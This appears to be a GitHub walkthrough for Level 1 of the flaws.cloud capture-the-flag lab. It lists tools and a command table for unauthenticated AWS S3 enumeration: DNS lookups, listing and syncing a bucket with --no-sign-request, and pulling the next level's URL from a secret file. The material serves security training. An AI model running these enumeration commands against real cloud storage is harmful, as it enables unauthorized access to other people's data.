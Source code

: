 




## Important Notes from Level 0
| :pushpin: Pin                 | Content                                                                
|-------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------|
| 0.1. :pushpin:  Level 0 URL          | ``                                                                         |










## Level 1 - AWS Un-Authenticated Enumeration

### Level 1 Prerequisites
1. AWS CLI installed
   1. [installation file script](./Flaws-Scripts/aws_cli_install.sh)
2. AWS CLI Profile configured
   1. [configuration file script](./Flaws-Scripts/aws_cli_configure.sh)

### Level 1 Tools
1. [`nslookup`](https://www.nslookup.io/ "DNS Lookup Tool")
2. [`aws s3 ls`](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html "AWS S3 List Command")
3. [`curl`](https://curl.haxx.se/ "Curl Command Line Tool")
4. ['grep'](https://www.gnu.org/software/grep/ "Grep Command Line Tool")
5. 




### Commands Used in Level 1 
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
| 1. :pager: Command                                                                        | Description                                                             |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
| 1.0. :pager: AWS Un-Authenticated Enumeration                                             | Un-Authenticated Access to  AWS S3 Buckets                               |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
| 1.1. :pager:  `./Flaws-Scripts/aws_cli_install.sh`   | Install AWS CLI                        |
| 1.2. :pager:  `./Flaws-Scripts/aws_cli_configure.sh`   | Configure                        |
| 1.3. :pager:  `CHALLENGE_URL="flaws.cloud" && nslookup $CHALLENGE_URL`                                                           | Execute NS Lookup Against Challenge URL                               |   
| 1.4. :pager:  `nslookup $L1_BUCKET_IP`                                                           | Execute NS Lookup Against Discovered IP                               |   
| 1.5. :pager   `aws s3 ls  $L1_BUCKET_URL --no-sign-request --region $AWS_REGION`                | Access & List S3 Bucket Files using AWS CLI - Un-Authenticated        |
| 1.6/1.1. :pager:  `aws s3 sync $L1_BUCKET_URL --no-sign-request --region $AWS_REGION ./flaws1`   | Copy Bucket Files                        |
| 1.6/1.2. :pager:  `export L2_URL=$(cat flaws1/$L1_SECRET_FILE | grep -oP '<a href="\K[^"]+')`   | Get Level 2 URL From Secret File                        |
| 1.6/2.1. :pager:  `export L2_URL=$(curl -s $L1_SECRET_URL | grep -oP '<a href="\K[^"]+')`   | Get Level 2 URL From Secret File                        |
| 1.7. :pager:  `Flaws-Scripts/aws_cli_configure_awsS3Admin.sh`   | Configure AWS CLI                        |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
